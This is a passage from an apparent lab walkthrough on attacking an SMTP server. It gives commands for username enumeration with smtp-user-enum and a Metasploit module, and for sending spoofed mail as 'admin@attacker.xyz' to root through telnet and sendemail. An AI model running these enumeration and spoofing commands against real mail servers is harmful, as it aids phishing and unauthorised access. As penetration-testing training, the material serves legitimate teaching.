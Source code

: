 ```shell
smtp-user-enum -U /usr/share/commix/src/txt/usernames.txt -t <target_IP>
```

6. **How many common usernames present in the dictionary exist on the server. Use suitable metasploit module for this task.**

```shell
msfconsole -q
use auxiliary/scanner/smtp/smtp_enum
set RHOSTS <target_IP>
exploit
```

7. **Connect to SMTP service using telnet and send a fake mail to root user.**

```shell
telnet <target_IP> 25
HELO attacker.xyz
mail from: admin@attacker.xyz
rcpt to:root@openmailbox.xyz
data
Subject: Hi Root
Hello,
This is a fake mail sent using telnet command.
From,
Admin
. # dot
# Note: There is a dot(.) in the last line which indicates the termination of data.
```
   
8. **Send a fake mail to root user using sendemail command.**

```shell
sendemail -f admin@attacker.xyz -t root@openmailbox.xyz -s <target_IP> -u Fakemail -m "Hi root, a fake from admin" -o tls=no
```
